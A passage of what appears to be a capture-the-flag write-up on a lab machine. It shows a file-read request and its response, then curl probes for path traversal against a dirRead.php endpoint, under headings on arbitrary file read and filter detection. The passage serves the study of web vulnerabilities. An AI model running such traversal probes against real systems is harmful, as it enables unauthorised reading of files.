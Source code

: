 ```

POST /fileRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-type: application/x-www-form-urlencoded
Content-Length: 18
Connection: close

file=./.list/list1

```

The the response gives what looks like the content of the file:

```

HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Mon, 06 Aug 2018 21:51:22 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 71

{"file":"{\"1\":\"Enumerate<br>\",\"2\":\"...\",\"3\":\"Profit<br>\"}"}

```

### Arbitrary File Read

With those two functions, I can get to get arbitrary directory listing and file reads.

#### Detecting Filters

I already showed that doing a directory read on `/` returns the html root, not the box root. Can I just use `../`? Well, no:

```

root@kali# curl -X POST -d "path=/" http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]

root@kali# curl -X POST -d "path=/../" http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]

```

#### Source
